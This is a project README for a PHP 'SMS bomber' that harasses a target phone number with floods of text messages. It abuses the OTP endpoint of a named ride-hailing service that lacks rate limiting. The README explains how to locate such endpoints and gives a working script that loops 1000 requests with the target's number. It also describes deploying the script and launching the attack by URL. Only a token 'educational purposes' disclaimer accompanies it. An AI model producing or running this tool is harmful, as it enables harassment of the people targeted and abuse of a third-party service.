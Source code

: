 # SMS Bomber AH

## Overview

This project demonstrates how to create an SMS Bomber script using PHP. The script allows sending multiple SMS messages to a target phone number by leveraging public APIs that do not have rate limits on OTP (One-Time Password) sending functionality.

## What is an SMS Bomber?

An SMS Bomber is a script that repeatedly sends SMS messages to a target number. This project uses websites that send OTPs without rate limiting or with bypassable rate limits.

## Prerequisites

- Basic understanding of PHP
- Web hosting that supports PHP
- Access to APIs from websites that send SMS OTPs

## How It Works

### Step 1: Identifying Suitable APIs

- First, find websites without rate limits on SMS OTP requests. In this example, we use the Snapp web application.
- Use the browser's developer tools (`F12`) and inspect the `Network` tab when sending an OTP request.
- Enter a phone number and observe the `POST` request sent to the endpoint `https://app.snapp.taxi/api/api-passenger-oauth/v2/otp`.

### Step 2: Writing the PHP Script

We write a PHP script that continuously sends SMS requests by interacting with the OTP API.

```php
<?php
set_time_limit(0); // Remove the timeout limit

$target = $_GET['target']; // Get the target phone number
$api_url = 'https://app.snapp.taxi/api/api-passenger-oauth/v2/otp'; // API URL

// Prepare the request
for ($i = 0; $i < 1000; $i++) {
    $data = json_encode(['phone_number' => $target]);

    $ch = curl_init($api_url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_POSTFIELDS, $data);
    curl_setopt($ch, CURLOPT_HTTPHEADER, ['Content-Type: application/json']);
    
    $response = curl_exec($ch);
    curl_close($ch);
}
?> 
```

### Step 3: Deploying the Script
Upload the PHP file to a web hosting server.
To initiate the SMS Bomber attack, open the following URL in your browser, replacing the phone number with the target's number:
arduino

http://yourdomain.com/smsbomber.php?target=9123456789

Stopping the Attack
To stop the script from running, simply close the browser or stop the page from loading.

Disclaimer
This project is intended for educational purposes only. Misuse of this script can lead to serious legal consequences. Please use it responsibly.